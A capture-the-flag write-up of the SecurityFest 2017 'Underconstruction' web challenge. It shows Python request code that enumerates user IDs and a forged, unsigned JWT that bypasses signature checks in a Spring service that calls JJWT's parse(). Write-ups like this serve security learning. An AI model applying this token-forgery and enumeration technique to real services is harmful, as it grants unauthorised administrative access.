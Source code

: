 ```yaml
---
layout: post
title: "SecurityFest 2017: Underconstruction (Web 200)"
author: verr
categories: writeup
tags: [cat/web, tool/python, lang/java, tech/jwt, tech/jjwt]
---
```


* **Category:** Web
* **Points:** 200
* **Solves:** 12
* **Description:**

>  Under Construction! Please protect your head, wear a hardhat.
>  
>  Service: http://web.ctf.rocks:8080 

## Write-up

This challenge was a weird one. Initial recon (favicon, error page) told us that we are dealing with Spring, but not much more. A hint in the `HTML` source was the beginning of our journey:

>  <!-- I don't know the status of the front end but the back end is coming along nicely. Try /login with {"username": "user", "password":"password"} -->

### Logging in

Since `/login` displayed an empty white page, and `GET`ing or `POST`ing the given credentials to it did not change anything (header, cookies, content), we used our beloved [requests](http://docs.python-requests.org/) to fire some non-form-encoded json directl at the endpoint (which [is supported by requests](http://docs.python-requests.org/en/master/user/quickstart/#more-complicated-post-requests)):

```python
data = {"username": "user", "password": "password"}
r = s.post(LOGIN, json=data)
```

which happily returned the following page content:

```
{"userId":"52","authorizedURLs":["/login","/apis"]}
```

and no cookies, but the following headers:

```
{ ...
 'Authorization': 'Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzEzNTgzM30.5oR_EfmqpBU_m3OYMToeyZVkycn_s42gjVjxc7ZUlX0'
... }
```

The `Authorization` header basically contains a signed [JSON Web Token](https://jwt.io/) holding the following payload:

```json
{
  "user": "user",
  "exp": 1497135833
}
```

This confirms that we are now logged in as user `user`. Keep that in mind for later.

### Looking around

The `authorizedURLs` field mentioned above tells us that there is another endpoint called `/apis`, which is the next step on our journey. Let's chat with it.

```python
r = s.get(URL + 'apis')
```

Yields:

```json
{"timestamp":1496272249731,
"status":400,
"error":"Bad Request",
"exception":"org.springframework.web.bind.MissingServletRequestParameterException",
"message":"Required Integer parameter 'userId' is not present",
"path":"/apis"}
```

Okay, we know from above that our `userId` is 52, so let us iterate over the first 100 or so ids ...

```python
for i in range(0, 100):
    payload = {"userId": i}
    r = s.get(URL + 'apis', params=payload)
    print r.text
```

Now that was a waste of LOC, since id 0 is the interesting one:

```json
{"urls":["/login","/apis","/supersecretflagresource"],
"id":0,
"user":"admin"}
```

Hello there! Yet another endpoint. The end is near ... 

```python
r = s.get(URL + 'supersecretflagresource')
```

But not so fast ...

```json
{"timestamp":1496272451108,
"status":403,
"error":"Forbidden",
"message":"Access is denied",
"path":"/supersecretflagresource"}
```

### Elevation of Privilege

Since the endpoint is associated to the `admin` user, we figure that we need to login as admin. But how? We don't know the password. Should we try SQLi now? Wait. Remember the JSON Web Token from earlier?

```
eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzEzNjQ1MX0.hoR2PKa1opg63MzTmNBkqbTPK9RZRoxhJeox7_HnEx0
```

Maybe the validation is crap and we can simply replace the payload?

```json
{
  "user": "admin",
  "exp": 1497136451
}
```

Copying the header and signature from the original token, we get:

```
eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcxMzY0NTF9.hoR2PKa1opg63MzTmNBkqbTPK9RZRoxhJeox7_HnEx0
```

Let us send that to the server ...

```json
{"timestamp":1496272770574,
"status":500,
"error":"Internal Server Error",
"exception":"io.jsonwebtoken.SignatureException",
"message":"JWT signature does not match locally computed signature. JWT validity cannot be asserted and should not be trusted.",
"path":"/supersecretflagresource"}
```

Well, at least we now know that they are probably using *Java JWT* (`JJWT`) on the server to parse & validate the tokens.

Hours later, we still did not manage to validate our manipulated json, but while reading the [DefaultJwtParser](https://github.com/jwtk/jjwt/blob/master/src/main/java/io/jsonwebtoken/impl/DefaultJwtParser.java#L201) code (we guessed from some exceptions that they are using this one), we noticed something:

```java
if (base64UrlEncodedDigest != null) { //it is signed - validate the signature
    ...
}

```

What do you mean? Does this mean if no digest is present in the token, you simply do not validate anything but still accept the token? What the hell?

Can this be true? Let us try with the following token (the trailing dot needs to be there, since they literally count the dots) ...

```
eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcxMzY0NTF9.
```

Yielding ...

```json
{"timestamp":1496273207665,
"status":500,
"error":"Internal Server Error",
"exception":"io.jsonwebtoken.exception.HeaderWithoutSignatureException","message":"JWT string is missing a signature.",
"path":"/supersecretflagresource"}
```

Oh, thank you friendly exception, thanks for letting us know. One more try with this token (note the leading dot) ...

```
.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcxMzY0NTF9.
```

And here we go:

```json
{"message":"You are close now",
"script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}",
"url":"https://kits.se?kokitotsos"}
```

Since it appeared weird to us that this was possible with an actual library (likely in the most up to date version), we did some more research to figure out what actually happened. Reading closed issues on GitHub is always a fun thing to do, and apparently the answer by a maintainer to [this issue](https://github.com/jwtk/jjwt/issues/193) did the job:

> Don't call `parse` if you know it is a signed token. Call `parseClaimsJws`.

We think it is a dangerous thing to have the less-secure version as the default.
Other people also [share this opinion](https://github.com/jwtk/jjwt/issues/212), and apparently there is a change on the way.

### The Flag

Retrieving the actual flag after this "trick" was straight forward. Since the website mentioned in the response was in UTF8 encoded Swedish, and UTF8 in Python is never fun, we simply fired up the JavaScript console, pasted the given script, and done.

```javascript
 function getFlag() {
   var text = $('.c-intro').innerText;
   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';
  }
```

Thanks for the flag & interesting challenge.

`SCTF{lolKOKITOTSOS}`

